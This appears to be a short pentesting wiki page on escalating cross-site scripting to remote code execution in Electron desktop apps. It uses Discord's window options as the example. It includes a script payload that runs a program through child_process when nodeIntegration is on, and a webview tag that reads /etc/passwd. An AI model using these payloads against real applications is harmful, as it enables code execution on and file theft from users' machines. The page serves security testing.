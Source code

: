 # XSS to RCE Electron Desktop Apps

Recommended read for more trick: [https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1](https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1)

When I test Electron app, first I always check the options of the [BrowserWindow API](https://www.electronjs.org/docs/api/browser-window), which is used to create a browser window. By checking it, I think about how RCE can be achieved when arbitrary JavaScript execution on the renderer is possible.\
Example:

```
const mainWindowOptions = {
  title: 'Discord',
  backgroundColor: getBackgroundColor(),
  width: DEFAULT_WIDTH,
  height: DEFAULT_HEIGHT,
  minWidth: MIN_WIDTH,
  minHeight: MIN_HEIGHT,
  transparent: false,
  frame: false,
  resizable: true,
  show: isVisible,
  webPreferences: {
    blinkFeatures: 'EnumerateDevices,AudioOutputDevices',
    nodeIntegration: false,
    preload: _path2.default.join(__dirname, 'mainScreenPreload.js'),
    nativeWindowOpen: true,
    enableRemoteModule: false,
    spellcheck: true
  }
};
```

## nodeIntgration RCE

If the nodeIntegration is set to true, a web page's JavaScript can use Node.js features easily just by calling the `require()`. For example, the way to execute the calc application on Windows is:

```
<script>
  require('child_process').exec('calc');
</script>
```

## Read Arbitrary Internal FIle

If contextIsolation set to false you can try to use \<webview> (similar to \<iframe> butcan load local files) to read local files and exfiltrate them: using something like  **\<webview src=”file:///etc/passwd”>\</webview>:**

![](<../../.gitbook/assets/1 u1jdRYuWAEVwJmf_F2ttJg.png>)

**(Trick copied form **[**here**](https://medium.com/@renwa/facebook-messenger-desktop-app-arbitrary-file-read-db2374550f6d)**).**
